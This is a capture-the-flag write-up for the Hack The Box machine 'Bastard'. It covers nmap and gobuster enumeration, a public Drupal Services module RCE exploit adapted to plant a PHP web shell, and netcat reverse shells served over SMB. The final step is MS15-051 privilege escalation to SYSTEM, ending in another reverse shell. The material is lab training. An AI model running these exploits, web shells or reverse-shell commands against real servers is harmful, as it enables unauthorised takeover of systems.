




# Bastard
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.9 -T4              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 09:43 BST
Nmap scan report for 10.10.10.9 (10.10.10.9)
Host is up (0.093s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

```
```
└─$ nmap -Pn -p80,135,49154 -sC -sV 10.10.10.9 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 09:46 BST
Nmap scan report for 10.10.10.9 (10.10.10.9)
Host is up (0.11s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.9/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.9/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/09/01 10:32:20 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 403) [Size: 1233]
/misc                 (Status: 301) [Size: 146] [--> http://10.10.10.9/misc/]
/themes               (Status: 301) [Size: 148] [--> http://10.10.10.9/themes/]
/modules              (Status: 301) [Size: 149] [--> http://10.10.10.9/modules/]
/user                 (Status: 200) [Size: 7411]
/0                    (Status: 200) [Size: 7571]
/scripts              (Status: 301) [Size: 149] [--> http://10.10.10.9/scripts/]
/node                 (Status: 200) [Size: 7571]
/tag                  (Status: 403) [Size: 1233]
/sites                (Status: 301) [Size: 147] [--> http://10.10.10.9/sites/]
/template             (Status: 403) [Size: 1233]
/Search               (Status: 403) [Size: 1233]
/includes             (Status: 301) [Size: 150] [--> http://10.10.10.9/includes/]
/profiles             (Status: 301) [Size: 150] [--> http://10.10.10.9/profiles/]
/Misc                 (Status: 301) [Size: 146] [--> http://10.10.10.9/Misc/]
/Themes               (Status: 301) [Size: 148] [--> http://10.10.10.9/Themes/]
/root                 (Status: 403) [Size: 1233]
/entries              (Status: 403) [Size: 1233]
/repository           (Status: 403) [Size: 1233]
/Scripts              (Status: 301) [Size: 149] [--> http://10.10.10.9/Scripts/]
/rest                 (Status: 200) [Size: 62]
/User                 (Status: 200) [Size: 9054]
/Modules              (Status: 301) [Size: 149] [--> http://10.10.10.9/Modules/]
/Admin                (Status: 403) [Size: 1233]
/Template             (Status: 403) [Size: 1233]
/Sites                (Status: 301) [Size: 147] [--> http://10.10.10.9/Sites/]
```
## Foothold/User
- `http://10.10.10.9/robots.txt`


- We have `Drupal 7.54`



- `searchsploit` 
  - We could also start `droopescan`
    - `scan drupal -u http://10.10.10.9`



- `Drupalgeddon2` and `Drupalgeddon3` vulnerabilities are out of the scope, since this box was released before those vulnerabilities
  - So probably `7.x Module Service - Remote Code Execution` is the one we need


- We need to change specified lines
  - It looks like we need to specify `rest` endpoint
  - We saw from `gobuster` results that it's `/rest`



- After changing we have

```
...
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'shell.php',
    'data' => '<?php system($_REQUEST["cmd"]);  ?>'
];
...
```

- We need `php-curl` to execute the `exploit`
  - Execute the `exploit`
```
└─$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/shell.php
```
```
└─$ curl 10.10.10.9/shell.php?cmd=whoami
nt authority\iusr
```
- Let's get reverse shell
  - I tried the trick `0xdf` used, where we share binary via `smb` and execute it to get a shell
```
└─$ impacket-smbserver share . -smb2support                                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
```
└─$ curl '10.10.10.9/shell.php?cmd=\\10.10.16.4\share\nc64.exe%20-e%20cmd.exe%2010.10.16.4%206666'
```

- And we receive the connection


## Root
- Enumerate
```
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
```
c:\Users>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only                          
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
```
```
c:\Users>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          1/9/2023, 11:38:07 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.555 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.573 MB
Virtual Memory: In Use:    522 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```
- Potential [MS15-051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051)
  - https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/README.md
  - Download https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
  - And share it via `smbserver` like before


```
c:\Users>\\10.10.16.4\share\MS15-051-KB3045171\ms15-051x64.exe "whoami"
\\10.10.16.4\share\MS15-051-KB3045171\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2104 created.
==============================
nt authority\system
```

- Get reverse shell
```
c:\Users>\\10.10.16.4\share\MS15-051-KB3045171\ms15-051x64.exe "\\10.10.16.4\share\nc64.exe -e cmd.exe 10.10.16.4 7777"
\\10.10.16.4\share\MS15-051-KB3045171\ms15-051x64.exe "\\10.10.16.4\share\nc64.exe -e cmd.exe 10.10.16.4 7777"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2324 created.
==============================

```


